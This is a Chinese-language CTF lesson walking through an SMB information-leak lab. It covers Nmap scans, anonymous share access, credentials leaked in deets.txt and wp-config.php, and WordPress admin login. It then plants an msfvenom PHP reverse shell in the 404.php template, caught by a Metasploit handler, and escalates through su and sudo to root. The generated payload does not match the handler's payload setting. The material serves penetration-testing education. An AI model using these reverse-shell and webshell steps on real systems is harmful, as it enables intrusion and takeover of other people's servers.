# 网络安全入门到精通：P30：5.6.CTF夺旗-SMB信息泄露 🚩

在本节课中，我们将学习如何利用SMB（Server Message Block）协议的信息泄露漏洞，逐步获取目标主机的访问权限，最终提升至root权限并获取flag值。整个过程将涵盖信息收集、漏洞分析、权限获取与提升等关键步骤。

---

## 什么是SMB协议？

上一节我们介绍了CTF比赛的基本概念，本节中我们来看看SMB协议。



SMB是Server Message Block的缩写。它是一个由微软和英特尔公司在1987年制定的网络通信协议，主要作为微软网络的通信协议。后来Linux系统移植了SMB协议，并将其改名为Samba。

SMB协议基于TCP/IP协议栈，通常使用的端口号是**139**和**445**。该协议用于访问网络上的共享资源，例如文件和打印机。一台计算机可以通过开启SMB协议并设置共享文件夹，让网络上的其他计算机访问和下载这些资源。





**网络拓扑示例**：
```
攻击机 (Kali Linux) ---网络---> 靶机 (开放SMB共享)
```
另一台机器可以通过网络连接至开放SMB服务的计算机，并访问其共享资源。



---





## 实验环境搭建



在开始实战之前，我们需要明确实验环境。



*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶机**：一台Linux系统，IP地址为 `192.168.253.17`。

我们的最终目标是获取靶机上的flag值。为此，我们需要先探测靶机信息，寻找可利用的弱点。

---



## 第一步：信息收集与探测



渗透测试的第一步是对目标进行信息收集，探测其开放的服务和端口。

我们使用Nmap工具来扫描靶机。



以下是使用Nmap进行服务版本探测的命令：
```bash
nmap -sV 192.168.253.17
```
此命令会发送数据包探测靶机开放端口的服务类型和版本信息。

除了基础服务扫描，我们还可以进行更全面的探测。
以下是使用Nmap进行激进扫描的命令：
```bash
nmap -A -v -T4 192.168.253.17
```
参数说明：
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：显示详细输出。
*   `-T4`：指定扫描速度，T4为较快的速度。



扫描完成后，我们需要分析结果。计算机会为不同服务分配端口（0-1023为常见服务端口）。在结果中，我们应重点关注特殊端口，例如大端口号运行的HTTP服务，可能隐藏管理界面。



**分析扫描结果**：
在返回的信息中，我们发现靶机开放了**139**和**445**端口，运行着SMB服务，并显示了其版本号和工作组信息。这确认了靶机存在SMB服务。

---

## 第二步：SMB服务弱点分析



确认靶机开放SMB服务后，我们开始分析其可能存在的弱点。



针对SMB服务，常见的利用点包括：
1.  **空口令或弱口令登录**：尝试无需密码或使用简单密码访问共享目录。
2.  **信息泄露**：共享目录中可能存在包含敏感信息的文件（如配置文件、密码本）。
3.  **远程溢出漏洞**：利用SMB服务版本的已知漏洞获取权限。

首先，我们尝试列出靶机上的所有共享目录。
使用`smbclient`命令列出共享：
```bash
smbclient -L //192.168.253.17
```
执行后，系统提示输入密码，我们尝试使用空密码（直接按回车）。结果返回了三个共享：
*   `print$`：共享打印机。
*   `share`：共享文件夹。
*   `IPC$`：空链接，一种无需用户名即可建立的共享连接。



---



## 第三步：访问共享与信息收集



接下来，我们尝试访问这些共享，查看其中内容。



使用以下命令格式访问特定共享：
```bash
smbclient //192.168.253.17/共享名
```





以下是访问各个共享的结果：
1.  访问`print$`共享失败，权限不足。
2.  访问`IPC$`空链接成功，但无法列出文件，利用价值低。
3.  访问`share`共享成功，使用空密码即可进入。

进入`share`共享后，使用`ls`命令列出文件。我们发现一个名为`deets.txt`的文件，将其下载到本地查看。
```bash
get deets.txt
```
在本地使用`cat`命令查看文件内容：
```bash
cat deets.txt
```
内容显示了一个密码：`12345`。我们将其记录下来。

继续在`share`目录中探索，发现一个`wordpress`目录。WordPress的配置文件`wp-config.php`中通常包含数据库用户名和密码。
我们下载该文件：
```bash
get wp-config.php
```
在本地编辑器中打开该文件，找到了数据库连接信息：
*   数据库名 (DB_NAME)
*   用户名 (DB_USER)
*   密码 (DB_PASSWORD)

我们记下这里的用户名(`admin`)和密码。

---

## 第四步：尝试利用凭据

获得用户名和密码后，我们尝试在其他服务上使用。

1.  **尝试登录MySQL数据库**：
    扫描结果显示靶机开放了3306端口（MySQL）。我们尝试远程登录。
    ```bash
    mysql -h 192.168.253.17 -u admin -p
    ```
    输入刚才获得的密码，登录失败，访问被拒绝。

2.  **尝试SSH远程登录**：
    靶机开放了22端口（SSH）。我们尝试用获得的凭据登录。
    ```bash
    ssh admin@192.168.253.17
    ```
    输入密码，登录失败，密码不正确。

3.  **搜索SMB远程溢出漏洞**：
    我们使用`searchsploit`工具，结合之前Nmap扫描到的SMB版本号，搜索是否存在公开的远程代码执行漏洞。
    ```bash
    searchsploit SMB 版本号
    ```
    本例中未发现可直接利用的远程溢出漏洞。

---

## 第五步：转向Web应用攻击

由于直接登录SSH和MySQL失败，且无直接SMB漏洞，我们转向Web服务。靶机很可能运行着Web服务（如之前发现的WordPress）。

我们使用`dirb`目录扫描工具来发现网站隐藏的目录或文件。
```bash
dirb http://192.168.253.17
```
在扫描结果中，我们发现了`/wp-admin`目录，这是WordPress的后台管理登录页面。

在浏览器中访问 `http://192.168.253.17/wp-admin`，进入登录界面。使用之前在`wp-config.php`中找到的用户名(`admin`)和密码尝试登录。**登录成功**，我们进入了WordPress后台。



---

## 第六步：上传WebShell与获取初始权限

进入WordPress后台后，我们可以通过编辑主题文件的方式上传WebShell，从而获取系统命令执行权限。



1.  **生成PHP WebShell**：
    使用`msfvenom`生成一个反向连接的PHP木马。
    ```bash
    msfvenom -p php/reverse_php LHOST=192.168.253.12 LPORT=4444 -f raw
    ```
    复制生成的PHP代码（不要复制注释部分）。



2.  **启动Metasploit监听器**：
    在攻击机上启动Metasploit，监听反弹shell的连接。
    ```bash
    msfconsole
    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set LHOST 192.168.253.12
    set LPORT 4444
    run
    ```

3.  **上传WebShell**：
    在WordPress后台，进入`外观` -> `主题编辑器`，选择`404.php`模板文件。将之前生成的PHP代码粘贴到文件中，更新文件。

4.  **触发WebShell**：
    访问触发404页面的特定URL（例如 `http://192.168.253.17/wp-content/themes/当前主题名/404.php`），或者直接访问上传的文件（如果知道路径）。此时，Metasploit监听器会收到反弹回来的shell连接。



5.  **优化Shell交互**：
    获取的初始shell可能功能不全。我们可以使用Python来生成一个更友好的交互式shell。
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
    现在，我们获得了靶机上一个名为`www-data`的普通用户权限。

---



## 第七步：权限提升与获取Flag



我们当前是`www-data`用户，需要提升权限至`root`才能读取flag。



1.  **枚举系统用户**：
    查看`/etc/passwd`文件，寻找其他用户。
    ```bash
    cat /etc/passwd
    ```
    发现一个用户名为`toogie`。



2.  **切换用户**：
    尝试切换到`toogie`用户。系统提示需要密码。我们尝试使用最早在`deets.txt`中发现的密码`12345`。
    ```bash
    su toogie
    ```
    输入密码`12345`，切换成功！





3.  **提权至root**：
    检查`toogie`用户是否拥有`sudo`权限。
    ```bash
    sudo -l
    ```
    尝试使用`sudo`提权。
    ```bash
    sudo su
    ```
    提权成功！我们现在是`root`用户。

4.  **寻找并读取Flag**：
    通常flag位于根目录或用户目录下。我们切换到根目录查找。
    ```bash
    cd /root
    ls
    ```
    发现`flag.txt`文件，使用`cat`命令读取。
    ```bash
    cat flag.txt
    ```
    **成功获取flag值！**



---

## 总结 🎯

本节课中我们一起学习了如何利用SMB信息泄露漏洞完成一次完整的渗透测试。

1.  **信息收集**：使用Nmap扫描目标，发现开放的SMB服务（139/445端口）。
2.  **漏洞利用**：利用SMB空口令访问共享目录，从中发现敏感信息（密码、数据库配置文件）。
3.  **横向移动**：将发现的凭据在Web后台（WordPress）进行尝试，成功登录。
4.  **获取立足点**：通过Web应用功能（编辑主题文件）上传WebShell，获得反向连接，取得`www-data`权限。
5.  **权限提升**：利用共享目录中找到的密码切换至其他用户(`toogie`)，再通过该用户的`sudo`权限提升至`root`。
6.  **达成目标**：在`root`目录下找到并读取最终的flag文件。



**核心要点**：
*   对于开放139/445端口的机器，应首先尝试使用`smbclient`匿名或弱口令访问，检查共享文件中是否泄露敏感信息。
*   渗透测试是一个循序渐进的过程，往往需要结合多个薄弱点（信息泄露、弱口令、权限配置不当）才能最终达成目标。
*   Flag通常需要`root`权限才能读取，因此在获得初始shell后，权限提升是关键一步。